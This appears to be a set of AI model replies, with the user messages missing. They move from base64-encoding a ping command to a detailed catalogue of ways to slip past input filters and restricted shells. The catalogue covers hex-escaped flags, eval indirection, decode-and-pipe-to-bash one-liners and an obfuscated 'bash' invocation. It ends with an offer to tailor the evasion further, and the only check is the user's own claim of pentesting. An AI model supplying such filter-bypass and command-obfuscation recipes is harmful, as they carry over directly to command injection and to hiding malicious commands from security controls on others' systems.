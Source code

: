 

You're very close! The problem is with your use of the `|` and `>` operators together. Here's the correct syntax:

```bash
echo "ping -c 1 192.168.1.3" | base64 > encode.txt
```

### Explanation:

* `echo "ping -c 1 192.168.1.3"` – outputs the string.
* `| base64` – pipes the string to `base64` to encode it.
* `> encode.txt` – redirects the final output to the file.

### To verify:

You can run:

```bash
cat encode.txt
```

And you should see the Base64-encoded version of the string.

If you want to decode it back, you can do:

```bash
base64 -d encode.txt
```

Let me know if you want to write the encoded version **as part of a script** or use it in another context.


------

To run a **base64-encoded command** stored in a variable like `$ENC`, you'll first need to **decode** it before passing it to `bash`.

Here's the correct way to do that:

### Step-by-step:

1. Store the base64-encoded string in a variable:

   ```bash
   ENC=$(echo "ping -c 1 192.168.1.3" | base64)
   ```

2. Run it by **decoding and piping to `bash`**:

   ```bash
   echo "$ENC" | base64 -d | bash
   ```

### What this does:

* `echo "$ENC"`: Outputs the base64 string.
* `base64 -d`: Decodes it back to the original command.
* `bash`: Executes the decoded command.

### One-liner version:

If `$ENC` is already defined:

```bash
echo "$ENC" | base64 -d | bash
```

Let me know if you're doing this inside a script or need to pass arguments dynamically.



-----------

Got it — you're doing pentesting, and you're dealing with a system that filters or blocks certain flags like `-p`. Obfuscating the command to bypass such restrictions is a common challenge in restricted shell environments or application input filters.

Below are several techniques to **obfuscate or bypass flag filtering**, especially for things like `-p`, depending on the restrictions.

---

### ⚠️ **Assumptions and Goal**

You're trying to run something like:

```bash
ping -p [some value] ...
```

But `-p` is blocked — either by a wrapper script, input sanitizer, or shell restrictions.

---

## 🔐 Techniques for Obfuscating or Bypassing `-p` Flag

### 1. **Use `--` to stop flag parsing (not always applicable)**

Some commands stop parsing flags after `--`:

```bash
ping -- -p
```

This won't work in `ping`, but works in some other tools — worth testing in other contexts.

---

### 2. **Use `$'\x2d'` to represent `-`**

The `-` character is ASCII 45, or `0x2d`. So you can do:

```bash
ping $'\x2d'p somevalue 192.168.1.1
```

✅ This often bypasses flag filters that are looking for the string `-p`.

---

### 3. **Command substitution / wrapping**

Use a wrapper script or indirect eval:

```bash
CMD="ping"; FLAG="-p"; $CMD $FLAG somevalue 192.168.1.1
```

Or more obfuscated:

```bash
eval "$CMD $FLAG somevalue 192.168.1.1"
```

This can get past filters scanning static command strings.

---

### 4. **Use Base64 encoding + decoding at runtime**

Encode the full command:

```bash
ENC=$(echo "ping -p somevalue 192.168.1.1" | base64)
echo $ENC | base64 -d | bash
```

You can also obfuscate base64 decoding itself:

```bash
echo $ENC | $(echo YmFzaA== | base64 -d)
```

(`YmFzaA==` is base64 for `bash`)

---

### 5. **Hex-encoding individual characters**

Similar to `$'\x2d'`, but more granular:

```bash
$(echo "ping $'\x2d'p foo 192.168.1.1" | bash)
```

You can construct the command character by character if needed:

```bash
CMD=$(printf "\x70\x69\x6e\x67")  # "ping"
FLAG=$(printf "\x2d\x70")         # "-p"
$CMD $FLAG somevalue 192.168.1.1
```

---

### 6. **Use `printf` instead of `echo` for better control**

Sometimes `echo` doesn't interpret escape sequences well. `printf` is better:

```bash
printf "ping \x2d\x70 somevalue 192.168.1.1\n" | bash
```

---

### 7. **Function Overriding / Shell Function Tricks**

You can define your own `ping` function that internally uses `-p`, bypassing the wrapper:

```bash
function ping() {
  /bin/ping -p "$@"
}
ping somevalue 192.168.1.1
```

Useful if the system has overridden `ping` with a restricted version.

---

### 8. **Split the flag into parts**

Some filters look for whole strings like `-p`, so split it:

```bash
ping -$((112))  # 112 is ASCII for 'p'
```

Or:

```bash
ping "-""p"
```

---

## 🧪 Test Which Filters Are in Place

If you're unsure what part is being filtered (the `-`? the whole `-p`? just `p`?), test incrementally:

```bash
ping -p
ping $'\x2d'p
ping -$((112))
ping "-""p"
```

---

## 🛠️ Final Obfuscated Example (one-liner)

```bash
ENC=$(echo "ping $'\x2d'p deadbeef 192.168.1.1" | base64)
echo "$ENC" | base64 -d | bash
```

Or even:

```bash
echo cGluZyAkJ1x4MmQncCBkZWFkYmVlZiAxOTIuMTY4LjEuMQ== | base64 -d | bash
```

---

Let me know if:

* The target system is Linux or something else.
* The command is being passed via a web form, CLI, or some other input method.
* You suspect shell wrapping or input sanitization tools like `AppArmor`, `seccomp`, or custom scripts.

We can tailor the evasion further depending on that.
